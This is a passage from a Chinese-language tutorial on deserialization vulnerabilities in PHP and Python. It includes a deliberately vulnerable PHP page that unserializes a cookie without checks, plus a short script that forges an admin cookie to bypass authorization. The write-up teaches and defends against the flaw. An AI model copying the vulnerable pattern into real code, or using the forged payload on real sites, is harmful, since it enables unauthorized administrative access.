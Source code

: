 若你对 Python 或者 PHP 足够熟悉就应该知道在这两个语言中的反序列化过程都能直接导致代码执行或者命令执行，并且 Python 中要想利用反序列化执行命令或者代码基本没有什么条件限制，只要有反序列化的交互接口就能直接执行命令或者代码。当然了，如果做了其他的一些安全策略，就要根据实际情况来分析了。

总结一下在各语言中反序列化过程目前可能带来的危害：

1.  执行逻辑控制（例如变量修改、登陆绕过）
2.  代码执行
3.  命令执行
4.  拒绝服务
5.  ...

这些安全隐患在大多语言的序列化过程出现后就存在了。成功的利用过程大都需要一定的条件和环境，不是每种语言都能像 Python 那样能给直接执行任意命令或者代码，如同一个栈溢出的利用需要考虑各种堆栈防护机制的问题一样。

一旦通过某种方法达到了反序列化漏洞可利用的环境和条件，能够进行利用的点就非常多了。

下面是一段代码是 PHP 代码中将序列化数据以 Cookie 形式存储的实例（user.php）：

```
<?php
class User {
    public $username = '';
    private $is_admin = false;
    function __construct($username) { $this->username = $username; }
    function isAdmin() { return $this->is_admin; }
}   

function initUser() {
    $user = new User('Guest');
    $data = base64_encode(serialize($user));
    setCookie('user', $data, time()+3600);
     echo '<script>location.href="./user.php"</script>';
}   

if(isset($_COOKIE['user'])) {
    $user = unserialize(base64_decode($_COOKIE['user']));
    if($user) {
        if($user->isAdmin()) { echo 'Welcome Come Back, Admninistrator.'; }
        else { echo "Hello, $user->username."; }
    } else {
        initUser();
    }
} else { initUser(); }

```

![p2](http://drops.javaweb.org/uploads/images/75cd683c8bd543d1667aa8980702e7506ace44c8.jpg)

这段代码将用户信息以`base64_encode(serialize($user))`的形式存储于客户端的`$_COOKIE['data']`里，对序列化敏感的都知道可以自己构造序列化内容然后传递给服务端，使其改变代码逻辑。使用下面这段代码生成`$is_admin = true`的用户信息：

```
<?php
class User {
    public $username = 'Guest';
    private $is_admin = true;
}   

echo base64_encode(serialize(new User()));

```
